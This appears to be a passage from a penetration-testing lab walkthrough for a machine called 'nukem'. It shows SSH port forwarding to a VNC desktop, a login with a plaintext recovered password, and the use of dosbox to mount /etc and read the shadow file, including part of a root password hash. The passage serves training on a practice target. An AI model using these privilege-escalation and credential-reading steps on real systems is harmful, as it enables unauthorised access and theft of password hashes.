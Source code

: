 Let's use port redirection to try to reach this service.

```
kali@kali:~$ ssh -L 5901:localhost:5901 commander@192.168.120.55
commander@192.168.120.55's password:
Last login: Wed Sep 30 02:36:30 2020 from 192.168.118.8
[commander@nukem ~]$
```

Now, let's use `vncviewer` to connect.

```
kali@kali:~$ vncviewer localhost:5901
Connected to RFB server, using protocol version 3.8
Performing standard VNC authentication
Password: CommanderKeenVorticons1990
Authentication successful

Desktop name "nukem:1 (commander)"
VNC server default format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
Using default colormap which is TrueColor.  Pixel format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
Same machine: preferring raw encoding
```

We are greeted with an XFCE desktop.

# Updating Sudoers File

LEt s open a terminal in the remote session and run `dosbox`. This results in classic DOS prompt.

![dosbox](https://offsec-platform.s3.amazonaws.com/walkthroughs-images/PG_Practice_38_image_1_smk2EeWJ.png)

dosbox

Following the [Dosbox WIKI](https://www.dosbox.com/wiki/MOUNT), we discover that the application should let us mount the file system. Let's try to mount the /etc directory and access the `shadow` file:

```
Z:\> mount C /etc
Drive C is mounted as local directory /etc/

Z:\> C:

C:\> type shadow
root:$6$MfW0zuduZhJE.svF$uDYH.../K0:18523::::::
bin:!*:18523::::::
daemon:!*:18523:::::
...
```
